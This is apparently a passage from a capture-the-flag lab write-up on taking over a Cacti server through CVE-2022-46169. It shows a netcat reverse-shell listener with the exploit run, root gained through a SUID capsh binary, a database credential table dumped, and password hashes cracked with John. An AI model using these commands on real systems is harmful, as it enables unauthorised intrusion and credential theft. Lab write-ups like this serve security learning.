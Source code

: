 This exploit didnt work for me so I searched another one in github: https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

```sh
nc -nlvp <LPORT>
`````

```sh
python3 CVE-2022-46169.py  -u http://10.129.216.153 --LHOST=<LHOST> --LPORT=<LPORT>
`````

Finally, we are inside the machine.

#### PrivEsc

If we execute "hostname -I" we can see that we are in a container, so we must try to "jump" into the host machine.

If we search for SUID Binary's we see this:
```sh
find / -perm /4000 2>/dev/null
`````
![4Pic]({{ '../assets/img/4.png' | relative_url }}){: .center-image }

Capsh is a weird one so lets try to abuse it.
In [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) we can see how:
```sh
/sbin/capsh --gid=0 --uid=0 --
`````

We get root.

As we have to reach the host machine, we keep searching something useful at this machine.

In the root directory we see a "entrypoint.sh" file that contains the database's credentials.
We do the same:

```sh
mysql --host=db --user=root --password=root cacti -e "show tables"
`````
This command show us the tables of every database. We can see an important table called "user_auth" 

```sh
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
`````

![5Pic]({{ '../assets/img/5.png' | relative_url }}){: .center-image }



We get 3 usernames and 3 passwords hashed, the guest user isn't important for us so lets try to break the others two hashes.

Add them to a file called hash and execute this command(the rockyou.txt file may not be in that path):

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash
`````

After some seconds we get the Marcus password.
